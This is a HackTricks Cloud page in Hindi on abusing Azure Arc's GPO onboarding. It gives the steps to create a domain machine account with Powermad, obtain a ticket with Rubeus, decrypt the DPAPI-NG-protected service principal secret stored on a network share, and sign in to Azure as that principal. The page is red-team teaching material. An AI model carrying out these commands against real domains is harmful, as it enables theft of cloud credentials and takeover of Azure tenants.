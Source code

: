 # Az - एज़्यूर आर्क वलनरेबल जीपीओ डिप्लॉय स्क्रिप्ट

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

- अगर आप अपनी कंपनी का विज्ञापन **HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
- [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
- हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
- **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
- **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को समर्थन करें।

</details>

### मुद्दों की पहचान

एज़्यूर आर्क नए आंतरिक सर्वरों (शामिल डोमेन सर्वर) को एज़्यूर आर्क में शामिल करने की अनुमति देता है जीपीओ ऑब्जेक्ट विधि का उपयोग करके। इसे सुविधाजनक बनाने के लिए, माइक्रोसॉफ्ट उनके आर्क ऑनबोर्डिंग प्रक्रिया की शुरुआत के लिए आवश्यक डिप्लॉयमेंट टूलकिट प्रदान करता है। ArcEnableServerGroupPolicy.zip फ़ाइल में, निम्नलिखित स्क्रिप्ट मिल सकते हैं: DeployGPO.ps1, EnableAzureArc.ps1, और AzureArcDeployment.psm1।

जब यह स्क्रिप्ट चलाया जाता है, तो DeployGPO.ps1 स्क्रिप्ट निम्नलिखित क्रियाएँ करता है:

1. स्थानीय डोमेन में एज़्यूर आर्क सर्वर्स ऑनबोर्डिंग जीपीओ बनाता है।
2. ऑनबोर्डिंग प्रक्रिया के लिए निर्धारित नेटवर्क शेयर पर EnableAzureArc.ps1 ऑनबोर्डिंग स्क्रिप्ट की प्रतिलिपि बनाता है, जिसमें Windows स्थापक पैकेज भी होता है।

इस स्क्रिप्ट को चलाते समय, सिस्टम व्यवस्थापकों को दो मुख्य पैरामीटर प्रदान करने की आवश्यकता होती है: **ServicePrincipalId** और **ServicePrincipalClientSecret**। इसके अतिरिक्त, डोमेन, शेयरिंग प्रक्रिया के लिए नेटवर्क मेज़बान के FQDN, और शेयर का नाम जैसे अन्य पैरामीटर भी आवश्यक होते हैं। स्क्रिप्ट को आवश्यक जानकारी जैसे tenant ID, संसाधन समूह, और अन्य आवश्यक जानकारी भी प्रदान करनी होती है।

एक एन्क्रिप्टेड गुप्त सीक्रेट निर्दिष्ट शेयर पर AzureArcDeploy निर्देशिका में DPAPI-NG एन्क्रिप्शन का उपयोग करके उत्पन्न किया जाता है। एन्क्रिप्टेड सीक्रेट को एन्क्रिप्टेडServicePrincipalSecret नामक फ़ाइल में संग्रहीत किया जाता है। इसका सबूत DeployGPO.ps1 स्क्रिप्ट में पाया जा सकता है, जहां एन्क्रिप्शन $descriptor और $ServicePrincipalSecret को इनपुट के रूप में लेकर ProtectBase64 को कॉल करके किया जाता है। डिस्क्रिप्टर में डोमेन कंप्यूटर और डोमेन कंट्रोलर समूह SIDs शामिल होते हैं, जिससे सुनिश्चित होता है कि ServicePrincipalSecret को केवल डोमेन कंट्रोलर्स और डोमेन कंप्यूटर सुरक्षा समूह ही डिक्रिप्ट कर सकते हैं, जैसा स्क्रिप्ट टिप्पणियों में उल्लेख किया गया है।
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### शातक

हमारे पास निम्नलिखित स्थितियाँ हैं:

1. हमने आंतरिक नेटवर्क में सफलतापूर्वक प्रवेश किया है।
2. हमें किसी कंप्यूटर खाते को बनाने या नियंत्रण में लेने की क्षमता है जो एक्टिव डायरेक्टरी के अंदर है।
3. हमने एज़्यूरआर्कडिप्लॉय निर्देशिका को समेत करने वाले नेटवर्क शेयर का पता लगाया है।

एडी वातावरण के अंदर एक मशीन खाता प्राप्त करने के लिए कई विधियाँ हैं। उनमें से एक सबसे सामान्य मशीन खाता कोटा का शातकीयता है। दूसरा विधान एक मशीन खाते को अनुरोधनीय ACLs या विभिन्न अन्य गलत विन्यासों के माध्यम से कंप्रमाइज़ करना है।
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
एक मशीन अकाउंट प्राप्त होने के बाद, इस अकाउंट का उपयोग करके प्रमाणीकरण किया जा सकता है। हम या तो runas.exe कमांड का उपयोग netonly फ्लैग के साथ कर सकते हैं या Rubeus.exe के साथ पास-द-टिकट का उपयोग कर सकते हैं।
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
अपने कंप्यूटर खाते के लिए TGT को मेमोरी में स्टोर करके, हम निम्नलिखित स्क्रिप्ट का उपयोग करके सेवा प्रिंसिपल सीक्रेट को डिक्रिप्ट कर सकते हैं।
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
वैकल्पिक रूप से, हम [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) का उपयोग कर सकते हैं।

इस बिंदु पर, हम Azure से कनेक्ट करने के लिए आवश्यक शेष जानकारी एक ArcInfo.json फ़ाइल से एकत्र कर सकते हैं, जो encryptedServicePrincipalSecret फ़ाइल के साथ समान नेटवर्क शेयर पर स्टोर है। इस फ़ाइल में विवरण होता है जैसे: TenantId, servicePrincipalClientId, ResourceGroup, और अधिक। इस जानकारी के साथ, हम Azure CLI का उपयोग करके कंप्रोमाइज़्ड सेवा प्रिंसिपल के रूप में प्रमाणित कर सकते हैं।

## संदर्भ

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> के साथ जीरो से हीरो तक AWS हैकिंग सीखें</summary>

HackTricks का समर्थन करने के अन्य तरीके:

- यदि आप अपनी कंपनी का विज्ञापन **HackTricks** में देखना चाहते हैं या **HackTricks** को **PDF** में डाउनलोड करना चाहते हैं तो [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) देखें!
- [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
- हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
- **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) पर **फ़ॉलो** करें।
- **हैकिंग ट्रिक्स साझा करें** द्वारा **PRs** सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
